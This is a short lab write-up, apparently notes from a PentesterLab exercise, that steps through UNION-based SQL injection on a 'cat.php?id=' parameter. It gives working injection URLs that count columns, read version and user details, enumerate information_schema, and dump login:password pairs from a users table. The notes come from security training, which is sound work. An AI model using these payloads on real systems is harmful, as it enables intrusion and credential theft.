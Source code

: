 # Exploitation of SQL Injecction Using UNION 


1. Find the number of columns to perform the UNION

		http://ptl-650b6f4d-61486848.libcurl.so/cat.php?id=1 union select 1,2,3,4
			---Valid page returned for 5 and 6...error on 7 so we know there are 6 columns
			http://ptl-650b6f4d-61486848.libcurl.so/cat.php?id=2%20union%20select%201,2,3,4
			http://ptl-650b6f4d-61486848.libcurl.so/cat.php?id=2 order by 10

2. Find what columns are echoed in the page

		Echo Version in the page 
		http://ptl-650b6f4d-61486848.libcurl.so/cat.php?id=2%20union%20select%201,2,3,4,5
		http://ptl-650b6f4d-61486848.libcurl.so/cat.php?id=2%20union%20select%201,1111,2222,3333
		http://ptl-650b6f4d-61486848.libcurl.so/cat.php?id=2%20union%20select%201,version(),2222,3333
		http://ptl-650b6f4d-61486848.libcurl.so/cat.php?id=2%20union%20select%201,user(),2222,3333
		http://ptl-650b6f4d-61486848.libcurl.so/cat.php?id=2%20union%20select%201,@@datadir,2222,3333
		
		
		Final Quering Look ---------------------> SELECT id,name,price,data FROM articles WHERE id=3 UNION SELECT 1,version(),2222,3333 FROM pictures

3. Retrieve information from the database meta-tables

		http://ptl-650b6f4d-61486848.libcurl.so/cat.php?id=2%20union%20select%201,table_name,2222,3333 from information_schema.tables
		http://ptl-650b6f4d-61486848.libcurl.so/cat.php?id=2%20union%20select%201,column_name,2222,3333 from information_schema.columns
		Final Quering Look ---------------------> SELECT id,name,price,data FROM articles WHERE id=3 UNION SELECT 1,column_name,2222,3333 FROM information_schema.columns

###Information Gathered

			Table --> Users
			Column --> login,password 
			
4. Retrieve information from other tables/databases

		http://ptl-650b6f4d-61486848.libcurl.so/cat.php?id=2%20union%20select%201,login,2222,3333 from users
		http://ptl-650b6f4d-61486848.libcurl.so/cat.php?id=2%20union%20select%201,concat(login,':',password),2222,3333 from users
		Final Quering Look ---------------------> SELECT id,name,price,data FROM articles WHERE id=3 UNION SELECT 1,concat(login,':',password),2222,3333 FROM users
